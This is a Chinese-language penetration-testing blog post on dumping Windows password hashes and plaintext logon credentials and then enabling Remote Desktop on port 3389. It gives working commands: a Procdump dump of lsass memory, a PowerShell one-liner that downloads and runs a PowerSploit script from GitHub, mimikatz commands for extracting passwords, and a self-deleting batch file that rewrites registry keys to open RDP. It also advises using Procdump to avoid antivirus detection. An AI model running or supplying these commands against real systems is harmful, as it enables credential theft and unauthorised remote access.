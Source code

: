 +++
date = "2016-08-08T08:28:27+08:00"
description = ""
draft = false
tags = ["intranet"]
title = "导出Windows主机密码与开启3389"
topics = ["Pentest"]

+++

### 0x00 导出主机密码hash
* 关于Windows的hash
    * 早期IBM设计的LM Hash算法存在弱点，微软在保持向后兼容性的同时提出了自己的挑战响应机制，即NTLM Hash
    * Windows hash由LM HASH和NT HASH两部分组成，形式为：用户名称:RID:LM-HASH值:NT-HASH值
    * 存储Windows hash的sam文件位置为：C:\windows\system32\config\SAM

* 导出hash条件
    * administrator以上权限

* 导出hash工具
    * wce
    * gethash
    * hashdump
    * SAMInside

* 上传工具得到hash
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![上传wce](/img/post/privilge_escalation_win_upload_wce.png)
![得到hash](/img/post/privilge_escalation_win_get_hash.png)

* 在线网站解密hash
    * LM Hash和NT Hash得到一个就可以解密，不过两个都得到的话解密的成功率会更高
    * 可以在[http://www.objectif-securite.ch/ophcrack.php](http://www.objectif-securite.ch/ophcrack.php?_blank)解密
    ![解出密码](/img/post/privilge_escalation_win_get_pwd.png)

### 0x01 导出主机密码
* 条件
    * administrator以上权限
    * 当前管理员没有注销登陆(可以通过query user命令看出)

* 工具
    * mimikatz
    * getpass

* 上传工具得到密码
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![查看管理员是否注销登陆](/img/post/privilge_escalation_win_query_user.png)
![上传getpass](/img/post/privilge_escalation_win_upload_getpass.png)
![得到密码1](/img/post/privilge_escalation_win_getpass1.png)
![得到密码2](/img/post/privilge_escalation_win_getpass2.png)

* 导出hash本地得到密码  
    若mimikatz和getpass这类软件被杀的话可以先用Procdump导出lsass.dmp，然后本地用mimikatz解密，Procdump是微软官方的软件，应该不会被杀
    * 导出文件dmp文件  
        * 上传Procdump.exe导出

        > ```
        Procdump.exe -accepteula -ma lsass.exe lsass.dmp
        ```

        * 或者执行PowerShell导出

        > ```
        powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1'); "Get-Process lsass | Out-Minidump"
        ```
    * 下载导出的dmp文件后用本地mimikatz解密  
        先输入：```mimikatz.exe "sekurlsa::minidump lsass.dmp"```  
        后输入：sekurlsa::logonpasswords

### 0x02 开启3389
* 直接使用注册表
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_reg.png)
![开3389端口](/img/post/privilge_escalation_win_open_3389.png)
![成功开启3389端口](/img/post/privilge_escalation_win_open_3389_success.png)

* 写一个批处理也行
```
# 3389.bat内容如下：
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
del 3389.bat
```
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_bat.png)

